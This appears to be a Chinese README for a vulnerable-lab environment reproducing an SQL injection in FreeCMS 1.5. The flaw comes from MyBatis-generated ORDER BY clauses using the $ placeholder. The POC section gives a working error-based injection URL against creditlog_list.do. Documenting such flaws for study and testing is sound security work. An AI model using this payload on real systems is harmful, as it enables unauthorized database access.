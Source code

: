 

## 测试环境

编译及运行环境：

```
docker-compose build
docker-compose up -d
```


## mybatis sql注入问题

[Mybatis框架下SQL注入漏洞面面观](https://mp.weixin.qq.com/s?__biz=MjM5OTk2MTMxOQ==&mid=2727827368&idx=1&sn=765d0835f0069b5145523c31e8229850&mpshare=1&scene=1&srcid=0926a6QC3pGbQ3Pznszb4n2q#rd)
[审计mybatis的sql注入](http://xdxd.love/2016/03/14/%E5%AE%A1%E8%AE%A1mybatis%E7%9A%84sql%E6%B3%A8%E5%85%A5/)


##  freecms 最新版 1.5 存在的sql注入漏洞

使用mybatis框架，一般并不会手动去写每一个xml配置，而是使用插件自动生成，而插件生成的xml中，默认情况下order by使用的是$占位符。如果应用层不做用户输入过滤，是存在sql注入漏洞的。

默认的xml配置：

![](img/01.png)
![](img/02.png)


## POC

访问 http://{{ip}}:{{port[0]}}/register.jsp 注册一个普通用户。然后通过http://{{ip}}:{{port[0]}}/mlogin.jsp登录。

访问：http://{{ip}}:{{port[0]}}/member/creditlog_list.do?order=extractvalue(1,concat(0x7C,(select%20user()),0x7C))

![](img/03.png)
